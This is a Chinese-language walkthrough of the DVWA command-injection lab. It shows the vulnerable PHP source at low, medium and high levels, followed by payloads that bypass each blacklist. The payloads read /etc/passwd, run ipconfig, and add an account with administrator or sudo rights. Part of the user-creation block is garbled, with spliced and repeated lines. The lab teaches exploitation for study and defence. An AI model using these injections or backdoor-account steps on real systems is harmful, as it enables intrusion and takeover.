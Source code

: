 <center>Command Injection命令注入</center>









## Command Injection命令注入

> 命令注入











### 1. low

> 低级
>
> 代码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=exec&security=low)

```shell
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

> 没有做任何过滤
>
> linux/windowns 的基本命令

````shell
# win
127.0.0.1 && ipconfig
# 创建用户提升管理员
net user UserName PassWord /add
net localgroup Administrators UserName /add


# linux 等
127.0.0.1 ; ip addr
127.0.0.1 ; cat /etc/passwd 

# 创建用户
sudo useradd -m username    # -m 创建家目录
# 设置密码
sudo passwd username
# 添加到 sudo 组
sudo usermod -aG sudo username    # Ubuntu/Debian
# 或
sudo usermod -aG wheel usernam# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALLe   # CentOS/RHEL/Arch Linux
# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALL
````

> 扩展：

1. windows 的与或非

* 单个 & (简单连接符)：

```cmd
# 无条件执行后续命令，不管前面的命令是否成功
command1 & command2    # 两个命令都会执行

# 示例
dir & echo "这句话总会显示"
```



* 与操作 (AND)：

```cmd
# 使用 && 
command1 && command2    # command1 成功才执行 command2

# 示例
dir && echo "目录列表完成"
```

* 或操作 (OR)：

```cmd
# 使用 ||
command1 || command2    # command1 失败才执行 command2

# 示例
dir nonexist.txt || echo "文件不存在"
```

* 非操作 (NOT)：

```cmd
# 使用 NOT
IF NOT EXIST file.txt echo "文件不存在"

# 使用 !
IF !ERRORLEVEL! EQU 0 echo "命令成功"
```

* if判断

```cmd
:: IF 语句中的与或非
IF EXIST file.txt (
    IF NOT EXIST backup.txt (
        echo "file.txt 存在但 backup.txt 不存在"
    )
)

:: 组合使用
dir file.txt && echo "存在" || echo "不存在"
```





### 2. medium

> 中级
>
> 代码直接点击 `view source`

```shell
# 做了过滤
    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

> 不使用`&&`和`;`字符

```shell
# win
127.0.0.1 & ipconfig

# linux
127.0.0.1 | ip addr
```





### 3. high

> 高级
>
> 代码

```php
# 做了更多字符过滤   
// Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

```

> 不加空格也可以

```shell
# windows
127.0.0.1 &&ipconfig

# linux
127.0.0.1 |cat /etc/passwd
```



